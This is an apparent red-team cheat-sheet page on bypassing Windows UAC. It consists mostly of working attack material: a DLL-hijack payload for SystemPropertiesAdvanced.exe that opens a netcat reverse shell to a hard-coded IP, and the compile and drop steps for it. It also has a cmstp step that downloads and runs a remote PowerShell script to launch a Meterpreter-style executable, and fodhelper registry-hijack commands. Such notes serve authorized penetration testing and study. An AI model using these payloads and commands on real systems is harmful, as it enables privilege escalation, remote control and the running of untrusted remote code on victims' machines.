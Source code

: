 # UAC Bypass

* [https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)

## SystemPropertiesAdvanced.exe

### srrstr.dll

```c
 #include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
    switch(dwReason) {
        case DLL_PROCESS_ATTACH:
            WinExec("C:\\Users\\<USERNAME>\\Documents\\nc.exe 10.10.13.37 1337 -e powershell", 0);
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }

    return 0;
}
```

Compile on Kali:

```text
$ i686-w64-mingw32-g++ main.c -lws2_32 -o srrstr.dll -shared
```

### DLL Hijacking

Upload `srrstr.dll` to `C:\Users\%USERNAME%\AppData\Local\Microsoft\WindowsApps\srrstr.dll` and check it:

```text
PS > rundll32.exe srrstr.dll,xyz
```

Exec and get a shell \("requires an interactive window station"\):

```text
PS > cmd /c C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

* [https://egre55.github.io/system-properties-uac-bypass](https://egre55.github.io/system-properties-uac-bypass)
* [https://www.youtube.com/watch?v=krC5j1Ab44I&t=3570s](https://www.youtube.com/watch?v=krC5j1Ab44I&t=3570s)

## cmstp.exe

* [0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)

```text
PS > IEX(New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/snovvcrash/362be57caaa167e7f5667156ac80f445/raw/1990959bc80b56179863aede06695bc499249744/Bypass-UAC.ps1')
PS > Bypass-UAC -C "C:\Users\snovvcrash\music\met.exe"
```

## fodhelper

```text
PS > New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value cmd.exe -Force
PS > New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
Cmd > fodhelper
```

